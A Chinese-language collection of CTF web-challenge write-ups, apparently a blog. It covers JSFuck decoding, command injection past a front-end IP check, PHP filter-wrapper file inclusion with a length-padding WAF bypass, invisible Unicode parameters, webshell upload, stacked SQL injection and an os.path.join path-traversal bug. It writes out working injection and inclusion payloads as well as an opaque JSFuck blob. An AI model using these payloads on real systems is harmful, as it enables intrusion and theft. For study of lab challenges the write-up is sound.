(+[![]]+[])[+[]]+(+[]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(+[]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()(([]+[])[([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[+[]]+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]())[!+[]+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[(![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]]((+((+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+[+[]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+!+[]]])+[])[!+[]+!+[]]+[+!+[]])+(![]+[])[+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]])()())[!+[]+!+[]+!+[]+[+[]]]+(+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+[]]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+([][(!![]+[])[!+[]+!+[]+!+[]]+([][[]]+[])[+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]]()+[])[!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+[!+[]+!+[]]+[]+(![]+[])[+!+[]]+([][[]]+[])[!+[]+!+[]]+[+[]]+[]+(+((+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+[+[]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+!+[]]])+[])[!+[]+!+[]]+[!+[]+!+[]+!+[]]+[]+[+[]]+[]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+(+((+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+[+[]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+!+[]]])+[])[!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]]+[]+([][[]]+[])[!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+[+[]]+[]+(+((+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+[+[]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+!+[]]])+[])[!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+([][[]]+[])[!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+(![]+[])[+!+[]]+(+((+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+[+[]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+!+[]]])+[])[!+[]+!+[]]+[+!+[]]+[]+[!+[]+!+[]+!+[]]+[]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[]+(!![]+[])[!+[]+!+[]+!+[]]+[+!+[]]+[]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+[+[]]+[]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[]+[!+[]+!+[]+!+[]]+[]+([][[]]+[])[!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[(![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]]((+((+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+[+[]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+[]]+[+!+[]]])+[])[!+[]+!+[]]+[+!+[]]) |
注意到它的特征：仅用（）[] + !
搜一下知道是 JSFUCK 加密。
把这串代码复制到控制台执行即可得出结果。
# [LitCTF 2023]Ping
# 前端绕过，信息收集，RCE，js 分析
进去后是个 ping 的窗口，让我们试着 ping 一下，ping 呗
127.0.0.1;ls |
弹出一口窗口：
敢于尝试已经是很厉害了，如果是这样的话，就只能输入 ip 哦
那就直接看看源码里有啥呗：
<script type="text/javascript"> | |
function check_ip(){ | |
let ip = document.getElementById('command').value; | |
let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/; | |
if(re.test(ip.trim())){ | |
return true; | |
} | |
alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦'); | |
return false; | |
} | |
</script> |
交给无敌的 gpt 看看啥意思：
<script type="text/javascript"> | |
// 定义一个函数，用于检查输入的 IP 地址是否合法 | |
function check_ip(){ | |
// 获取输入框中的 IP 地址 | |
let ip = document.getElementById('command').value; | |
// 定义一个正则表达式，用于匹配合法的 IP 地址格式 | |
let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/; | |
// 使用正则表达式测试输入的 IP 地址是否匹配合法格式 | |
if(re.test(ip.trim())){ | |
// 如果匹配成功，返回 true 表示 IP 地址合法 | |
return true; | |
} | |
// 如果 IP 地址格式不合法，弹出警告框提示用户 | |
alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦'); | |
// 返回 false 表示 IP 地址不合法 | |
return false; | |
} | |
</script> |
说白了就是看看我们 ip 合不合法，可终究只是前端限制，发一个合法的数据包，用 hackbar 或者 bp 改下数据重发就行了。剩下直接命令执行即可。
# [GDOUCTF 2023]hate eat snake
# JS 分析。
打开题目后有一串提示：
" 提示：空格键控制开始 / 暂停，方向键控制蛇的移动方向，F5 刷新
撞墙，吃到自己，吃到果子都会 g 噢。如果你能坚持 60 秒，你就是真男人
玩了下根本不可能坚持到 60 秒。
打开源码发现 snake.js。进入后搜索 flag，没搜到，
简单审计一下，发现这题目有两种思路，一种是修改一直在自增的速度，这样可以玩到 60 秒，另一种就是修改时间，让时间大于 60 秒。
用 F12 将源码保存下来，将把 JS 中的 score 变量修改为大于 60
var score = 100;
或者删去 speed++。
当然也能在控制台上进行操作
直接新建一个然后控制就行，正好 Snake 自带 reset 方法，新建即重置。然后控制速度。
let snk = new Snake('eatSnake', 0, false); | |
setInterval(() => { snk.speed = 0 }, 1); |
这题目解决方式挺多的，还有一种方式就是挂掉后点取消，等个 60 秒就行了。
# 2023/9/15
# [鹏城杯 2022] 简单包含
# php 伪协议，waf 绕过，文件包含，
题目：
<?php | |
highlight_file(__FILE__); | |
include($_POST["flag"]); | |
//flag in /var/www/html/flag.php; |
用 php 伪协 = 协议直接尝试一下：
flag=php://filter/convert.base64-encode/resource=flag.php |
回显
nssctf waf!
那就看看 index.php 里面有什么：
flag=php://filter/convert.base64-encode/resource=index.php |
base64 解码得：
<?php | |
$path = $_POST["flag"]; | |
if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) { | |
echo 'nssctf waf!'; | |
} else { | |
@include($path); | |
} | |
?> |
大致意思就是输入必须超过 800 字符才能输出带有 flag 的文件。
那就添加脏数据进行绕过：
a=141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414&flag=php://filter/read=convert.base64-encode/resource=flag.php |
# [NISACTF 2022]checkin
# 源码泄露，代码审计，unicode 不可见字符
<?php | |
error_reporting(0); | |
include "flag.php"; | |
// NISACTFWelcome to | |
if ("jitanglailo" == $_GET[ahahahaha] &+!!& " Flag!N1SACTF" == $_GET[Ugeiwocuishiyuan]) { //tnnd! weishenme b | |
echo $FLAG; | |
} | |
show_source(__FILE__); | |
?> |
进入题目后源码，看起来很简单，只需要传两个参数就可以了。
但是没有成功，本来想将他放在 php 里面看看有什么问题，结果发现莫名多了很多字符。

这三个不可见字符是三个 unicode 编码，具体可以参考这篇文章：
U+202E、U+2066、U+2069
既然这样，我们要是想让它在浏览器中显示，就给它 url 编码一次即可。
只需这样就可以把第二个参数真正传参：

最终 payload:
?ahahahaha=jitanglailo&%E2%80%AE%E2%81%A6Ugeiwo%E2%81%A9%E2%81%A6cuishiyuan=%E2%80%AE%E2%81%A6+Flag%21%E2%81%A9%E2%81%A6N1SACTF |
# [LitCTF 2023] 作业管理系统
# 弱口令，文件上传
很简单的一道题，打开源代码提示账户密码是 admin，登录后上传一句话木马文件即可。
# [SWPUCTF 2022 新生赛] ez_ez_php
# php 伪协议，文件包含
题目:
<?php | |
error_reporting(0); | |
if (isset($_GET['file'])) { | |
if ( substr($_GET["file"], 0, 3) === "php" ) { | |
echo "Nice!!!"; | |
include($_GET["file"]); | |
} | |
else { | |
echo "Hacker!!"; | |
} | |
}else { | |
highlight_file(__FILE__); | |
} | |
//flag.php |
伪协议直接读取后解码
<?php | |
error_reporting(0); | |
header("Content-Type:text/html;charset=utf-8"); | |
echo "NSSCTF{flag_is_not_here}" ."<br/>"; | |
echo "real_flag_is_in_'flag'"."<br/>"; | |
echo "换个思路，试试PHP伪协议呢"; |
不在 flag.php，那就读取 /flag。
最终得到 flag.
# [强网杯 2019] 随便注
# 堆叠注入，关键字绕过
判断回显知为单引号闭合。
输入 0' union select 1,2# 回显出
return preg_match("/select|update|delete|drop|insert|where|./i",$inject);
尝试使用堆叠注入
1';show databases;#
得库，
再使用
1';show tables;#
得表。
知道有两个表一个为 'words', 一个为 '1919810931114514'，看看他两分别有什么字段：
1' ;show columns from words;#
1';show columns from `1919810931114514`#
这里表名为数字时，要用反引号包起来来查询。
表 words 里面有 id 字段，结合开始输入 1 回显出的结果，可知我们现在处于 words 表中，
表 '1919810931114514' 里面有 flag，最终的 flag 就在里面，现在就是想办法查询表 '1919810931114514'，
有三种方法：
第一种：
handler 语法：让我们一行一行浏览一个表的数据（mysql 的专用语句，其他 sql 语言无）
handler users open as hd;#载入指定的数据表“users”并返回句柄“hd”
handler hd read first;#读取数据表首行
handler hd read next;#读取下一行
handler hd close;#关闭句柄
所以直接构建 payload:
1';handler `1919810931114514` open ;handler `1919810931114514` read first;# |
第二种:
alter 作用：修改已知表的列。
alter table " table_name" add " column_name" type;#添加一个列
alter table " table_name" drop "column_name" type;#删除一个列
alter table " table_name" alter column "column_name" type;#改变列的数据
alter table " table_name" change "column1" "column2" type;#改列名
alter table "table_name" rename "column1" to "column2";#改列名
跟刚才一样，我们还有一个数据表的名字叫 “words”；于是萌生一种大胆的想法，后端执行的语句为
select * from words where id = '$id';
我们就可以把表 “words” 改名为其他的，而将 “1919810931114514” 改名为 “words”，这样就能让那个后台直接从表 “1919810931114514” 里查询；于是乎
1';
rename table `words` to `words1`;
rename table `1919810931114514` to `words`;
alter table `words` change `flag` `id` varchar(100) character set utf8 collate utf8_general_ci not NULL;#
成功 rename 之后，我便可以直接只用单引号闭合的方法直接查取到 flag
1' or 1=1#
第三种：
通过 mysql 中的预处理来拼接，从而达成绕过。
1';prepare s from concat("s","elect","*from `1919810931114514`"); | |
execute s;# |
# [CISCN 2019 华东南] Web11
# SSTI,smart,rce
smart 模板注入
可以参考这篇文章
php 的模板注入 (smart 模板)
# 2023/9/16
# [NISACTF 2022]babyupload
# 文件上传，os.path.join 漏洞，python
可以参考这篇文章
警惕！Python 中少为人知的 10 个安全陷阱
打开后是个文件上传界面，检查网页源代码发现提示有个 /source 文件。打开后得到文件 app.py:
from flask import Flask, request, redirect, g, send_from_directory | |
import sqlite3 | |
import os | |
import uuid | |
app = Flask(__name__) | |
SCHEMA = """CREATE TABLE files ( | |
id text primary key, | |
path text | |
); | |
""" | |
def db(): | |
g_db = getattr(g, '_database', None) | |
if g_db is None: | |
g_db = g._database = sqlite3.connect("database.db") | |
return g_db | |
@app.before_first_request | |
def setup(): | |
os.remove("database.db") | |
cur = db().cursor() | |
cur.executescript(SCHEMA) | |
@app.route('/') | |
def hello_world(): | |
return """<!DOCTYPE html> | |
<html> | |
<body> | |
<form action="/upload" method="post" enctype="multipart/form-data"> | |
Select image to upload: | |
<input type="file" name="file"> | |
<input type="submit" value="Upload File" name="submit"> | |
</form> | |
<!-- /source --> | |
</body> | |
</html>""" | |
@app.route('/source') | |
def source(): | |
return send_from_directory(directory="/var/www/html/", path="www.zip", as_attachment=True) | |
@app.route('/upload', methods=['POST']) | |
def upload(): | |
if 'file' not in request.files: | |
return redirect('/') | |
file = request.files['file'] | |
if "." in file.filename: | |
return "Bad filename!", 403 | |
conn = db() | |
cur = conn.cursor() | |
uid = uuid.uuid4().hex | |
try: | |
cur.execute("insert into files (id, path) values (?, ?)", (uid, file.filename,)) | |
except sqlite3.IntegrityError: | |
return "Duplicate file" | |
conn.commit() | |
file.save('uploads/' + file.filename) | |
return redirect('/file/' + uid) | |
@app.route('/file/<id>') | |
def file(id): | |
conn = db() | |
cur = conn.cursor() | |
cur.execute("select path from files where id=?", (id,)) | |
res = cur.fetchone() | |
if res is None: | |
return "File not found", 404 | |
# print(res[0]) | |
with open(os.path.join("uploads/", res[0]), "r") as f: | |
return f.read() | |
if __name__ == '__main__': | |
app.run(host='0.0.0.0', port=80) |
大致意思就是文件名不能包含 '.'，上传文件后生成一个唯一的 UUID 作为文件标识符，保存上传的文件到指定路径，重定向到查看上传文件的路由，之后根据文件标识符查询文件路径，利用 os.path.join 函数拼接路径后，打开文件并读取文件内容，然后再返回文件内容。
